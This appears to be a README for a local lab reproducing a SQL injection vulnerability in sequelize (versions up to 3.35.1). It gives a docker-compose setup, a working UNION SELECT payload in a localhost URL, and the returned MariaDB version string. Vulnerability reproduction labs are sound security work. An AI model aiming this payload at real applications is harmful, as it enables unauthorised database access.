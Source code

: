 # SQL Injection @ sequelize
- module : sequelize
- version : <= 3.35.1
- severity: high

# Installation

`docker-compose up --build`

# Lunch Attack

- ### Browser [open the browser and enter the following url]
    `http://localhost:8000/?search=a')) AS DECIMAL) = 1 UNION SELECT VERSION(); -- -`

- the response will be `[{"name":"10.3.15-MariaDB-1","target":null}]`
